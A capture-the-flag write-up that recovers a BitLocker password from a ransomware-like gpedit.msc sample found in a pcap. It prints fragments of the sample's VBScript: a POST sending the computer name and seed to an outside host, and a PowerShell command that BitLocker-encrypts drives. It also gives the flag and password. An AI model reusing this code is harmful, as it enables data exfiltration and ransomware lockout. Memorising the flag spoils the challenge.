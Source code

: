 # Honey, I shrunk the skids

Author: LOLASL

Flag: `EPT{it_works_the_machine_works!}`

# Description

`My computer went to ransomland and all I got was this lousy pcap! Can you please help me unlock the FlagDisk.vhdx?`

# Provided challenge files

- [FlagDisk.vhdx](https://platform.ept.gg/api/challenge/shrunk/file)
- [shrunk.pcap](https://platform.ept.gg/api/challenge/shrunk/file)

# Writeup
Looking at the PCAP, we see two interesting HTTP packets. The IP address 192.168.77.167 was seen downloading a file named _gpedit.zip_ and later uploading data to `/updatelog` on the IP address 192.168.77.136

![PCAP](pcap.png)
---
Looking at `/updatedlog` we can see the text
```http
POST /updatelog HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded; Charset=UTF-8
Accept: */*
Accept-Language: fr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Content-Length: 40
Host: 192.168.77.136

upgrade=REVTS1RPUC01OUMxQzNECTQzOTA2Ljgz
```
quick base64 decode later we get:

```http
upgrade=DESKTOP-59C1C3D	43906.83
```
Ok, that looks like a computername and a random number, not sure what that does yet, maybe the _gpedit.zip_ file can help us find out what that is.
We use the `File -> Export Objects -> HTTP` in Wireshark to extract _gpedit.zip_ from the PCAP and from the zip file we get a file called _gpedit.msc_.

![gpedit.msc](gpedit1.png)

Opening it up in VSCode, we see that it's just one massive XML file. Scrolling through, we spot a part where it's using xls.loadXML to load an XML-formatted string. The string looks like its url encoded, so we run it through URL decode in CyberChef, and voilà! We get the entire readable code.

- [Readable_gpedit.txt](Readable_gpedit.txt)

Examining the script, we observe that it generates a seed from various system properties, including used and free memory, total and free space, performance metrics, and network data. This seed is then utilized to generate a 64-character string using a random selection from a predefined set of characters.
```vbs
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```

Here we can see the `"computerName" Tab "seed"` is send to 192.168.77.136 in a file called `/updatelog`, lucky us, we got the `/updatelog` data from the computer that got "ransomwared" from the pcap.
```vbs
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```
Upon further inspection, we see that the script uses strRandom as the BitLocker password, formatted as "'strRandom'" (Chr(34) = " ,Chr(39) = '). The script uses a PowerShell command to convert strRandom into a secure string using `ConvertTo-SecureString` and then applies it as a password to enable BitLocker on the drives.

```vbs
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
```

After checking the script and understanding what it does we can decipher out that `43906.83` from the `/updatelog` in the pcap must be the seed that sets the bitlocker password on the disk. Knowing the exact seed value used to generate the BitLocker password for FlagDisk.vhdx allows us to modify the original script to reveal the password. By modifying the script to use the seed `43906.83` and print out strRandom, we should be able to get the same password as the "ransomware" used.

```vbs
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = 43906.83 ' Replace the seed with the one in the PCAP.
Rnd(-1)
Randomize seed
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)
    strRandom = strRandom & randomChar
Next

WScript.Echo strRandom ' prints out strRandom in a msgbox
```
voila, we get out the password:

![password](password.png)

`_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb`

Now we only need to mount the disk and enter the password

![mount](mount.png)

![flag](flag.png)

and there is the flag :)
`EPT{it_works_the_machine_works!}`
